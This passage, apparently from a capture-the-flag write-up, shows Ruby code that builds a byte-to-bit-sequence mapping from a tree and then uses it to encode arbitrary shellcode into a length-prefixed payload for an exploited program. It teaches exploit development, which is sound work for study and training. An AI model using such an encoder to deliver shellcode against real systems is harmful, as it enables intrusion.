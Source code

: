   <span class="Statement">if</span>(node[<span class="Constant">:left</span>] == <span class="Constant">0</span>)
    <span class="Identifier">@@seqs</span>[node[<span class="Constant">:value</span>]] = seq
  <span class="Statement">end</span>
<span class="rubyDefine">end</span>

node = get_node(<span class="Type">ROOT</span>)
walk_nodes(<span class="Type">ROOT</span>)
</pre>

In the end, @@seqs looks like this:

<pre>
<span class="Statement">0</span> <span class="Normal">=</span>&gt; <span class="Constant">0</span>
<span class="Statement">255</span> <span class="Normal">=</span>&gt; <span class="Constant">1000</span>
<span class="Statement">215</span> <span class="Normal">=</span>&gt; <span class="Constant">100100000000</span>
<span class="Statement">177</span> <span class="Normal">=</span>&gt; <span class="Constant">100100000001</span>
<span class="Statement">30</span> <span class="Normal">=</span>&gt; <span class="Constant">10010000001</span>
<span class="Statement">56</span> <span class="Normal">=</span>&gt; <span class="Constant">1001000001</span>
<span class="Statement">220</span> <span class="Normal">=</span>&gt; <span class="Constant">100100001</span>
<span class="Statement">114</span> <span class="Normal">=</span>&gt; <span class="Constant">10010001</span>
<span class="Statement">7</span> <span class="Normal">=</span>&gt; <span class="Constant">1001001</span>
<span class="Statement">133</span> <span class="Normal">=</span>&gt; <span class="Constant">10010100</span>
<span class="Statement">97</span> <span class="Normal">=</span>&gt; <span class="Constant">10010101</span>
...
</pre>

Now that I have a mapping, I can do a bunch of lookups for the shellcode of my choice:

<pre>
tree_code = <span class="Special">&quot;&quot;</span>

<span class="Type">SHELLCODE</span>.split(<span class="Special">//</span>).each <span class="Statement">do</span> |<span class="Identifier">c</span>|
  tree_code += <span class="Identifier">@@seqs</span>[c.ord]
<span class="Statement">end</span>

<span class="Statement">while</span>((tree_code.length % <span class="Constant">8</span>) != <span class="Constant">0</span>) <span class="Statement">do</span>
  tree_code += <span class="Special">'</span><span class="Constant">0</span><span class="Special">'</span>
<span class="Statement">end</span>
tree_code = [tree_code].pack(<span class="Special">&quot;</span><span class="Constant">B*</span><span class="Special">&quot;</span>)
tree_code = [tree_code.length].pack(<span class="Special">&quot;</span><span class="Constant">I</span><span class="Special">&quot;</span>) + tree_code
tree_code.split(<span class="Special">//</span>).each <span class="Statement">do</span> |<span class="Identifier">b</span>|
  print(<span class="Special">'</span><span class="Constant">\x%02x</span><span class="Special">'</span> % b.ord)
<span class="Statement">end</span>
puts()
</pre>
